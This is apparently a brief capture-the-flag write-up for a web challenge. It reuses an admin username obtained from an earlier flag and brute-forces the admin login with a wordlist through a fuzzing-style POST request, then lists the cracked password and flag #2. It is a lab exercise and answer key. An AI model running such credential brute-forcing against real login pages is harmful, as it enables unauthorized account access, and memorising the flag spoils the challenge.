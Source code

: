 # Solution

Log in as admin, from first flag we will get the admin username:  ``"username":"brian.1954"``
Then bruteforce the password with wordlist given

```POST /admin/login
username=brian.1954&password=FUZZ
```
``password=dallas`` 

Flag #2 shown in admin dashboard

flag: ``flag{8a8b9661b3bd2baa2c74347a6c5cc0fc}``

Solved by: kr3yzii
